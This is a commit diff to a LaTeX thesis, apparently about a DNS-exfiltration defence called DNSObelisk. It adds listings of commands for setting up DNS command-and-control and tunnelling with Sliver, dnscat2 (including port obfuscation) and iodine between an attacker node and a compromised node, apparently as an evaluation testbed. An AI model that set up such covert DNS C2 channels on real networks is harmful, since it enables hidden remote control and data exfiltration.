

Before and after one commit to Synarcs/DNSObelisk_Report, a LaTeX thesis (uwthesis.tex): two parts of pages 104 and 105 of 105 before the commit and two parts of pages 105 and 106 of 107 after it, joined at a grey line, cut at the place of the change, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
updated report

```diff
--- a/uwthesis.tex
+++ b/uwthesis.tex
@@ -1920,4 +1915,5 @@
 \subsubsection{Sliver}
-\begin{lstlisting}[language=bash,caption={Steps to deploy Sliver implant},label={lst:sliver-steps}]
+Sliver being highest reputed adversary emulation framework developed by BishopFox for advanced penetration testing, the official documentation provides detailed steps on \href{https://github.com/BishopFox/sliver/blob/master/README.md}{Github} to clone and build sliver C2 framework.
+\begin{lstlisting}[language=bash,caption={Steps to use Sliver for DNS C2},label={lst:sliver-steps}]
 # 1. Start Sliver C2 server on attacker node
 sliver-server
@@ -1941 +1930,0 @@
-# 6. Confirm session established in Sliver console
@@ -1942,10 +1937,41 @@
 sessions
+beacons
+# 7. connect sliver c2 server to start exploiting compromised sessions or beacons
+use <session_id>
+use <beacon_id>
 \end{lstlisting}
 
 \subsubsection{Dnscat2}
+Dnscat2 documentation for building the dnscat2 server and client can be found on official documentation page at \href{https://github.com/iagox86/dnscat2/blob/master/README.md}{Github}.
+\begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2},label={lst:sliver-steps}]
+# 1. Start Dnscat2 C2 server on attacker node without port obfuscation, default DNS tunnelling over Port 53/udp
+sudo ruby dnscat2.rb --dns 'host=<attacker_node>,domain=<c2_domain>'
+# 2. Connect to dnscat c2 server from compromised node in data plan
+./dnscat --secret=<c2_connection_secret> <c2_domain>
+# 6 carry all the c2 attacks once compromised node is connected to C2 server.
+\end{lstlisting}
+
+\begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2 with DNS port obfuscation layered random UDP port},label={lst:sliver-steps}]
+# 1. Start Dnscat2 C2 server on attacker node with port obfuscation, DNS protocol itself tunnelled over random UDP port with internally tunnelling any protocol payload
+sudo ruby dnscat2.rb --dns 'host=<attacker_node>,port=<dns_overlay_udp_port>,domain=<c2_domain>'
+# 2. Connect to dnscat c2 server from compromised node in data plan
+./dnscat --dns server=<attacker_node>=<dns_overlay_udp_port>,domain=dnscat.strive.io --secret=<c2_session_secret>
+# 6 carry all the c2 attacks once compromised node is connected to C2 server.
+\end{lstlisting}
 
 
 \subsubsection{Iodine}
-
+Iodine documentation for building the Iodine tunnel server server and client can be found on official documentation page at \href{https://github.com/yarrick/iodine}{Github}
+\begin{lstlisting}[language=bash,caption={Steps to use Iodine for Dns tunnelling using kernel encapsulation ppp TUN/TAP links},label={lst:sliver-steps}]
+# 1. Start iodine tunneling server
+sudo iodined -f -P <password> <TUN/TAP_overlay_CIDR> <tunnel_domain>
+# 2. Verify the required TUN/TAP pointtopoint netdev link created, defaults to dns0
+ip addr show dev dns0
+# 3. On compromised node in data plane start the iodine client
+sudo iodine -P <password> -f  -r <tunnel_server> <tunnel_domain>
+# 4 Verify the required TUN/TAP pointtopoint netdev link created in CIDR range default to <TUN/TAP_overlay_CIDR>/24
+ip addr show dev dns0
+# Tunnel any protocol payload through the compromised node encpasulated traffic passed through PPP TUN/TAP links on both systems.
+\end{lstlisting}
 
 \subsubsection{DET}
```
Also changed, not shown: uwthesis.tex (45 more changed lines).
